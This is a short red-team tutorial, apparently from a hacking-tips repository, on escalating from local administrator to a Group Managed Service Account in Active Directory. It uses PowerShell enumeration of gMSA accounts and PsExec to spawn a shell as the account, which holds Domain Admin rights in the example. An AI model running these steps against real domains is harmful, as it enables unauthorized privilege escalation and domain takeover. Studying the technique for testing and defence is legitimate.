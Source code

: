 # Elevate from Local admin to gMSA account
Some of the steps in this tutorial used [ADModule](https://github.com/pwnj0hn/HackingTipsNTricks/blob/main/Active%20Directory%20Recon/ADModule.md)
* Check if any gMSA accounts are present in the domain.
 ```powershell
Get-ADServiceAccount -Filter * -properties dnshostname
```
* Check if gMSA user have any interesting permissions so it is worth hijacking
 ```powershell
Get-ADPrincipalGroupMembership -Identity "http_svc$"
 ```
* Compromise the server which gMSA is assigned too.
* Download [SysInternals PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
* Open Administrator PowerShell or cmd prompt
* Use PsExec to spawn a cmd or PowerShell prompt as the gMSA account.

```powershell
.\PsExec.exe -i -u velvet\http_svc$ -p foobar cmd.exe
```

In this case the http_svc$ account have Domain Admin rights, which it really should not have but we see service accounts have way to many priviliges all the time. DA is used in this example as a worst case scenario. It might have other cool priviliges too in other scenarios.

 
